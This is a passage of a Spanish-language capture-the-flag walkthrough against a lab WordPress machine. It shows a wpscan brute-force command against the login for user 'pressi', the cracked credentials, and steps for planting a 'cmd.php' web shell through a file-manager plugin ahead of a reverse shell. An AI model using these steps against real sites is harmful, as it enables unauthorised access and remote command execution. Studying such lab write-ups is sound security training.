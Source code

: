 Como vemos, hay un usuario llamado `pressi`, por lo que podriamos utilizar wpscan para intentar hacer fuerza bruta al panel de login con un diccionario, para hacerlo ejecutaremos wpscan de la siguiente manera:

```css
wpscan --url http://pressenter.hl/ --usernames pressi --passwords <ubicacion/a/nuestro/diccionario>
```

Luego de unos minutos veremos este resultado:

```css
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - pressi / dumbass
```

Ahora que ya tenemos un usuario y contraseña para el wordpress, entraremos desde el navegador. [wp-login](http://pressenter.hl/wp-login.php)

Una vez dentro, hay muchas maneras de ganar intrusion remota, pero esta vez crearemos un `.php` que nos permita ejecutar comandos y para posteriormente enviarnos una `reverse shell`.

**wordpress**

Ahora iremos a `plugins > añadir nuevo plugin` y agregaremos uno llamado `file-manager`, a mi me gusta este en específico pero pueden usar el que quieran:

![manager](./images/pressenter/imagenes/manager.png)

luego lo activamos y vemos que ahora hay una nueva pestaña, entramos y vamos a `/wp-content/uploads/2024` y creamos un archivo llamado "cmd.php" o lo que queramos y dentro ponemos lo siguiente:

![cmd](./images/pressenter/imagenes/cmd.png)

guardamos y entramos a `http://pressenter.hl/wp-content/uploads/2024/cmd.php`. Estando en el archivo ponemos un signo de interrogación con el parametro cmd y el comando que queramos, seria algo así:
